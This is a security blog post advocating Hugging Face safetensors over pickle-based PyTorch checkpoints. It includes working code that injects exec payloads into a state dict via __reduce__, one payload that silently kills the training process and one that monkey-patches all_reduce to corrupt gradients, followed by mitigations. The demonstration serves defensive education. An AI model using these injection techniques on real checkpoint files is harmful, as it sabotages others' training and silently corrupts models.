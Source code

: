 ```yaml
---
title: "Why do we need Hugging Face's SafeTensor?"
description: "Malicious code can be injected in your model weights and safetensors is all you need."
date: "2024-10-19"
ogImage:
  url: "https://franklee.xyz/public_assets/blog_media/safetensor.jpeg"
tags: ["deep learning", "security"]
---
```


A long time ago, a very simple question came to my mind when I was reading a bunch of Hugging Face's documentation - what does Hugging Face's Safetensor do? The term "Safetensor" appears in many places in the Hugging Face's documentation but people rarely talk about it and discuss its purpose. Recently, there was a security affair which affected a team's model training progress and this prompts me to revisit this question and write this blog. It should be noted that this blog is not a discussion of the affair but rather the technical advocation for the use of safetensors to protect your models, which are the most important assets in the AI era.

## What's wrong with the current model storage?

When we train a model, we often save the model weights to a file for checkpointing and later loading. The most popular format for this is the PyTorch state dictionary, which is a Python dictionary object mapping each layer to its parameter tensor. I guess most of you are familiar with the following code snippet:

```python
# save model weights
state_dict = model.state_dict()
torch.save(state_dict, "model.pt")

# load model weights
state_dict = torch.load("model.pt")
model.load_state_dict(state_dict)
```

However, this method uses `pickle` to serialize and deserialize the entire state dict object, raising concerns over its security. The reason is that `pickle` is not secure against erroneous or maliciously constructed data. It may load arbitrary code with the same privileges as the program that is deserializing the data. In this way, the attacker can inject arbitrary code into the model weights and cause serious security issues. One way to hack the models weights is to modify its `__reduce__` method to execute arbitrary code.

```python
class Obj:

    def __reduce__(self):
        return (exec, ("print('hello')",))
```

If you serialize this object and save it to a file, the code will be executed when you load the object. That is, you will see a "hello" statement printed when you load the object.

With this in mind, we can basically manipulate many parts of the program, including imported libraries and local variables. I have provided two typical senarios where your training process can be interrupted and the arithmetic correctness of the model weights can be tampered with. You can also find the example code in my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor).

### Scenario 1: Automatically shut down the training process

As we can see in the "hello" example above, the malicious code is written as a code string. Similarly, we can prepare the following code string to create a new thread, which kills the parent process after 5 seconds. This thread works at the background so the user won't notice anything and `os.kill` does not return any error trace, which makes it hard to detect the malicious code.

```python
AUTO_SHUTDOWN = """
import os
import threading
from functools import partial

# get the process ID
pid = os.getpid()

def inject_code(pid: int):
    import time
    import os
    time.sleep(5)
    os.kill(pid, 9)

wrapped_fn = partial(inject_code, pid)
injection_thread = threading.Thread(target=wrapped_fn)
injection_thread.start()
"""
```

Next, we need to inject this code into the state dict object. As a result, when we load the model weights from disk, the code will be executed and the training process will be interrupted.

```python
def inject_malicious_code(obj, code_str):
    # bind a reduce fn to weights
    def reduce(self):
        return (exec, (code_str, ))

    # bind the reduce fn to the weights's __reduce__ method
    bound_reduce = reduce.__get__(obj, obj.__class__)
    setattr(obj, "__reduce__", bound_reduce)
    return obj

state_dict = inject_malicious_code(state_dict, AUTO_SHUTDOWN)
```

### Scenario 2: Introduce errors in collective communication

Similarly, if we want to modify the behaviour of the collective communication operations, we can introduce errors in its computation so that the gradients will never be correct in distributed training. We can prepare the following code string to hijack the `all_reduce` function. This code string monkey patches the `all_reduce` API in the `torch.distributed` module and adds 1 to the tensor in place. As a result, the all-reduce results will be larger than the expected results.

```python
HIJACK_ALL_REDUCE = """
import torch.distributed as dist

dist._origin_all_reduce = dist.all_reduce
def hijacked_all_reduce(tensor, *args, **kwargs):
    import torch.distributed as dist
    tensor = tensor.add_(1)
    return dist._origin_all_reduce(tensor, *args, **kwargs)

setattr(dist, "all_reduce", hijacked_all_reduce)
"""
```

For example, if you have 2 processes and each process is holidng a tensor `[0, 1, 2, 3]`, the all-reduce operation will sum up the tensors from each process and the result will be `[0, 2, 4, 6]`. However, if the attacker injects the malicious code, the result will be `[2, 4, 6, 8]`.

## How do Safetensors solve the problem?

In the first place, Safetensors do not use `pickle` to serialize and deserialize the state dict object. Instead, it uses a custom serialization method to store the model weights. In this way, the attacker cannot inject arbitrary code into the model weights. Amazingly, Safetensors are still fast as does zero-copy when storing and saving model weights. In simple words, Hugging Face's Safetensors ensure that your model weights files only contain the parameter data and nothing else.

We have also provided some examples of using safetensors to remove the security concerns in the my [blog notes](https://github.com/FrankLeeeee/Blog-Notes/tree/main/2024-10-19-safetensor). For every example which demonstrates the malicious scenario, you just simply add the `--use-safetensor` flag to the command to see the difference.

Moreover, if you still want to stick to `torch.load`, you can specify the argument `weights_only` so that PyTorch will restricts the unpickler to only unpickle the metadata and tensors.

## References

- https://www.reddit.com/r/learnpython/comments/ewrcuc/how_do_you_run_code_while_unpickling/
- https://huggingface.co/docs/safetensors/en/index
